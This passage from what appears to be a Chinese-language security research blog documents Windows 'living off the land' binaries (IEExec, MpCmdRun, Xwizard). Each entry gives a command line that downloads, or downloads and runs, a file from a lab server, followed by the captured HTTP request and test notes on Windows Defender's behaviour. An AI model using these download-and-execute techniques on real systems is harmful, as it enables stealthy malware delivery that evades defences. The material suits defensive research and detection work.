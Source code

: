 ***Note*** 下载后会直接打开, 目前没有找到能做隐藏的参数

### 7. IEExec *Microsoft IE Execute shell*

download and execute files from remote server

```powershell
C:\Users\test\Desktop>c:\Windows\Microsoft.NET\Framework\v2.0.50727\IEExec.exe http://192.168.220.125/white_process/call_calc.exe
```

[***pcap***]({{site.url}}/assets/Living_Off_The_Land/pcap/IEExec.pcap)

```http
GET /white_process/call_calc.exe HTTP/1.1
Accept: */*
UA-CPU: AMD64
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; Win64; x64; Trident/7.0; .NET CLR 2.0.50727; SLCC2; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0E; .NET4.0C)
Host: 192.168.220.125
Connection: Keep-Alive
```

***Note*** IEExec 在 .net 目录下, 需要找一下

### 8. MpCmdRun

```powershell
"c:\Program Files\Windows Defender\MpCmdRun.exe" -DownloadFile -url http://192.168.220.125/white_progress/test -path c:\test.exe
```

***Note***

*根据下面 reference 的说法, MpCmdRun 在 `4.18.2008.9` 版本中引入了 `-DownloadFile` 参数, 然而手里没有这个版本的环境, 只有一个`4.18.2010.7`的有这个参数*

*但是, 对于这个版本的windows defender, 直接把通过 `MpCmdRun` 下载的行为视为危险行为, 行为加白或关掉实时防护, 直接报参数错误*

*如果这是微软及时封堵的结果, 那可利用的价值和情况就不大了. 目前先挖个坑(无底坑), 后面遇到`4.18.2008.9`版本的`windows defender`再做测试*

![Windows_defender-MpCmdRun]({{site.url}}/assets/Living_Off_The_Land/img/Windows_defender_MpCmdRun.png)

### 9. Xwizard

```powershell
C:\Users\test\Desktop>xwizard RunWizard {7940acf8-60ba-4213-a7c3-f3b400ee266d} /z http://192.168.220.125/white_process/test.msi
```

[***pcap***]({{site.url}}/assets/Living_Off_The_Land/pcap/Xwizard.pcap)

```http
GET /white_process/test.msi HTTP/1.1
Accept: */*
UA-CPU: AMD64
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; Win64; x64; Trident/7.0; .NET CLR 2.0.50727; SLCC2; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0E; .NET4.0C)
Host: 192.168.220.125
Connection: Keep-Alive
```
